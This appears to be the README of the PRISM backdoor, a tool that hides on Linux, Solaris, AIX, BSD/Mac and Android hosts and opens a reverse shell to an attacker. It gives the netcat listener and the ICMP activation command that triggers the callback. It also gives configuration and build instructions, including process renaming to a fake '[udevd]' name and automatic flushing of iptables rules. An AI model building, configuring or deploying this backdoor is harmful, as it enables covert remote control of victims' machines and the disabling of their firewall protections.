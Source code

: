 # Prism backdoor


* **Linux**
* **Solaris**
* **AIX**
* **BSD/Mac**
* **Android**

PRISM can works in two different ways: **ICMP** and **STATIC** mode.

## ICMP mode

Using this operation mode the backdoor waits silently in background for a specific ICMP packet 
containing the host/port to connect back and a private key to prevent third party access. 

* First, run **netcat** on the attacker machine to wait for incoming connection from the backdoor:
```bash
$ nc -l -p 6666 
```

* Using the **sendPacket.py** script (or another packet builder) send the activation packet to the backdoor: 
```bash
./sendPacket.py 192.168.0.1 p4ssw0rd 192.168.0.10 6666
```
 **192.168.0.1**  is the victim machine running prism backdoor  
 **p4ssw0rd** is the key  
 **192.168.0.10** is the attacker machine address  
 **6666** is the attacker machine port

* The backdoor will connect back to netcat!


## STATIC mode

Using this operation mode the backdoor try to connects to an hard-coded IP/PORT.  
In this case, just run netcat listening on the hard-coded machine/port:
```bash
 $ nc -l -p [PORT] 
```

## Features

* Two operating modes (ICMP and STATIC)
* Runtime process renaming
* No listening ports
* Automatic iptables rules flushing
* Written in pure C
* No library dependencies

## Get the code
```
git clone https://github.com/andreafabrizi/prism.git
```

## Configuration

Before building, you have to configure the backdoor editing the source code.  
Following the configuration parameters description:

**STATIC mode:**  
*REVERSE_HOST*:   Machine address to connect back  
*REVERSE_PORT*:   Machine port to connect back  
*RESPAWN_DELAY*:  Time, in seconds, between each connection  

**ICMP mode:**  
*ICMP_KEY*:       Key/Password to activate the backdoor  

**Generic parameters:**  
*MOTD*:           Message to be printed at the backdoor connection  
*SHELL*:          Shell to execute  
*PROCESS_NAME*:   Fake process name  

## Building

`gcc <..OPTIONS..> -Wall -s -o prism prism.c`

Available GCC options:  
**-DDETACH**        #Run the process in background  
**-DSTATIC**        #Enable STATIC mode (default is the ICMP mode)  
**-DNORENAME**      #Doesn't renames the process  
**-DIPTABLES**     #Try to flush all iptables rules  

Example:  
`gcc -DDETACH -DNORENAME -Wall -s -o prism prism.c`

## Cross Compiling
* **Android**  
Change the shell to */system/bin/sh*  
`apt-get install gcc-arm-linux-gnueabi`  
`arm-linux-gnueabi-gcc -DSTATIC -DDETACH -DNORENAME -static -march=armv5 prism.c -o prism`

* **Linux 64bit** (using a 32bit host system)   
`apt-get install libc6-dev-amd64`  
`gcc -DDETACH -m64 -Wall -s -o prism prism.c`

* **Linux 32bit** (using a 64bit host system)   
`apt-get install libc6-dev-i386`  
`gcc -DDETACH -m32 -Wall -s -o prism prism.c`

## Backdoor building information

The backdoor ignore any command line parameter, except the **Inf0** (the last char is a digit).  
This option allow you to see some information about the backdoor:

```bash
$ ./prism Inf0
 Version: 0.5
 Mode: icmp
 Key: p455w0rD
 Process name: [udevd]
 Shell: /bin/sh
 Detach: Yes
 Flush Iptables: No
```
